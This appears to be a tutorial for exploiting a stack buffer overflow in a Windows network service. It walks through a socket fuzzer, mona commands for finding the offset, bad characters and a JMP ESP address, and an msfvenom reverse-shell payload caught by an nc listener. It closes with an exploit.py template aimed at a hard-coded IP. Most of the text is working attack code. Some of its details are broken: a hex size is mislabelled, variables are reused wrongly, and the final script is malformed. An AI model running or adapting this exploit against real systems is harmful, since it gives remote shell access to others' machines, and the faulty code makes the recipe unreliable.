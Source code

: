 ##### BufferOverflow

To exploit this application via buffer overflow, firstly the application must be crashed. This is done by using the fuzzer below. 
This fuzzer will send an array of increasing values, where the value is "A", until the application crashes and will leave you with the correct number of bytes needed
to crash the application.

fuzzy.py

```
#!/usr/bin/python

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
 ```
    
   
   Once the application has been crashed. It is time to overwrite and take control of the EIP pointer. To do this I will create a unique pattern using
   msf-pattern-create, using the greatest size of bytes used to crash the application via the fuzzer.

Create a working directory for !mona
```    
!mona config -set workingfolder c:\mona\%p
```

Create a pattern to overwrite

```
msf-pattern_create -l <i.e 2560 or 0xA00>
```

Find the offset

```
msf-pattern_offset -l <i.e 2560 or 0xA00> -q <i.e 33794332>
```

Once the offset has been found. In this case 2288, over the original 2560.

```
Creating the inputBuffer

filler = 'A' * 0x8f0 #2288   This is the space to write to get to EIP
eip = 'B' * 0x4      #4      This is the space we need to take over EIP
buffer = 'C' * 0x616 #268    This is for Shellcode ;~)
```

This should equal 2560 as the original size of the pattern created. 

To test this I have created the exploit, working primarily into this file as I go forward.

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * 0x8f0 #2288  
 	eip = 'B' * 0x4     
  	buffer = 'C' * 0x616 #268  

	inputBuffer = filler + eip + buffer

	content = inputBuffer 

	buffer+= content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```
Running exploit.py, EIP should now be equal to 42424242 (hex value of “BBBB”). I now control EIP!

Now that EIP has been controlled, it is critical to gather a list of bad characters, when the shellcode is generated any invalid characters could
stop the payload from being read through the application. 

Finding bad characters with !mona. '\x00' is always considered a bad character as it will truncate shellcode when executed.

Creating a list of badchars using !mona
```
!mona bytearray -b "\x00"
``` 
This will exclude the bad characters
```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
``` 
This will compare the remaining list against the application. 

Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.

Finding JMP ESP

Now that control of EIP has been taken, and all bad characters have been eliminated, the next thing needed is an address to jump to ESP.
This can found using !mona.

To load mona modules:
```
!mona modules
```

Finding a .dll where Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a 
JMP ESP (FFE4), inside the dll :
```
!mona find -s "\xff\xe4" -m <DLL>
```
Return address
Choose an address in the results and update exploit.py :
Setting the retn variable to the address, written backward (little-endian)

```
JMP ESP address

0x625011af

# exploit.py
eip = "\xaf\x11\x50\x62"
```

Generate the shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> –e x86/shikata_ga_nai -b "<BAD_CHARS>" -f c
```

Prepend NOPs

A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
```
padding = "\x90" * 16
```

Start an nc listener on port 1234

```
sudo nc -lnvp 1234
```

Final Exploit

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * FillerNum 
  eip = ''  EIP ADDRESS 
  buffer = 'C' * 0x616 #268  
  padding = "\x90" * 16
  
  ## Generate Shellcode Command: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> –e x86/shikata_ga_nai -b "<BAD_CHARS>" -f c
  ## Bad Charecters: 
  
  shellcode = 
  
	inputBuffer = filler + eip + padding + shellcode + buffer

	content = inputBuffer 

	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```




